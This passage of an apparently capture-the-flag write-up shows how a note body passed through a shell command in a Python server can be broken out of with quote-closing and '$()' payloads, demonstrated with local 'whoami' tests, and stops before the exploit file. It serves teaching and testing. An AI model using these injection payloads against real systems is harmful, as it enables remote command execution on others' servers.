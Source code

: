 ### Alternative Command Injection

#### Local POC

The string that gets passed to `subprocess` in the Python server is:

```

f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"

```

The command itself doesn’t matter here, so let’s look at `echo $'stuff' 1234`, where I control stuff:

```

oxdf@hacky$ echo $'stuff' 123123
stuff 123123

```

If I try to inject with `;`, it doesn’t work because the single quotes take that as a string:

```

oxdf@hacky$ echo $';id' 123123
;id 123123

```

But I can add single quotes into the string I control like this:

```

oxdf@hacky$ echo $'';whoami; echo'' 123123

oxdf
123123

```

So that echo’s an empty string, runs `whoami`, and then prints the next string.

I could do the same with a subshell (`$()`):

```

oxdf@hacky$ echo $'$(whoami)' 123123
$(whoami) 123123
oxdf@hacky$ echo $''$(whoami)'' 123123
oxdf 123123

```

#### Exploit

I’ll make a markdown file with the exploit using the same shell as above:
